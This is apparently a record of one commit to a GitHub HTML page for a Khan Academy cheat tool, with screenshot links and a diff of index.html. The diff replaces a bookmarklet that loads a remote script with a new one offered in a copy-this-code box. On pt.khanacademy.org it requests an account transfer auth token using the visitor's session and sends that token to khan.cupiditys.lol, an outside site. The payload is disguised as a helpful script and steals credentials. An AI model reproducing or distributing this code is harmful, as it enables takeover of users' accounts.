

Before and after one commit to Hi55Five/Khanware-s, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 885-1696 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update JavaScript code snippet in index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1125,7 +1125,7 @@
 
                 <div class="code-box">
                     <div class="code-content" id="js-code">
-javascript:(function(){const s=document.createElement('script');s.src='https://cdn.jsdelivr.net/gh/Hi55Five/KhanScript@main/script.js?'+Date.now();document.head.appendChild(s);})();
+javascript:(async()=>{if("pt.khanacademy.org"!==window.location.hostname)return;let e=await fetch("https://pt.khanacademy.org/api/internal/graphql/createTransferAuthTokenMutation?lang=pt&app=khanacademy",{headers:{"content-type":"application/json","x-ka-fkey":"1"},referrer:"https://pt.khanacademy.org/settings/account",body:JSON.stringify({operationName:"createTransferAuthTokenMutation",query:"mutation createTransferAuthTokenMutation($canvasProfileKeyName: String) {\n  createTransferAuthToken(canvasProfileKeyName: $canvasProfileKeyName) {\n    token\n    __typename\n  }\n}",variables:{}}),method:"POST",mode:"cors",credentials:"include"}),a=(await e.json()).data.createTransferAuthToken.token;open("https://khan.cupiditys.lol/?token="+a)})();
                     </div>
                     <button class="copy-btn" id="copy-btn">
                         <i class="fas fa-copy"></i> Copiar Código
```
